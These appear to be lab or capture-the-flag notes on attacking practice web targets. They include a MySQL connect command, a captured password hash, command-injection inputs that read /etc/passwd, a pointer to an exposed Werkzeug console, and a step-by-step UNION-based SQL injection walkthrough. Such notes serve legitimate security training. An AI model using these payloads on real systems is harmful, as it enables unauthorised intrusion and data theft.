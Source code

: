 ![[Images/image70.png]]


# MySQL

`sudo apt install default-mysql-client`
`mysql -h [IP] -u [username] -p`

![[Images/image4.png]]
![[Images/image22.png]]

![[Images/image13.png]]
![[Images/image60.png]]
![[Images/image54.png]]
![[Images/image52.png]]
carl:*EA031893AA21444B170FC2162A56978B8CEECE18
![[Images/image47.png]]
![[Images/image14.png]]


# Webapp tips

 $(cat /etc/passwd)
 $(cat /etc/os-release)
 $(ls -la)

Navigate to http://10.10.68.69:86/console to access the Werkzeug console.


SQLi = SQL injection

check for sqli possibilities:
https://website.thm/article?id=1’
You should get an error message

union check:
Try UNION, add 1, 2, 3, 4, 5 on at a time until the number of columns match
https://website.thm/article?id=1 UNION SELECT 1, 2, 3
The error message will disappear when you have the right no of cols but you still get the hit on id=1 so switch to id=0

inject sql:
then replace the last col nr with what you want to run:
https://website.thm/article?id=0 UNION SELECT 35, 5, database()
output:
5
Article ID: 35
sqli_one

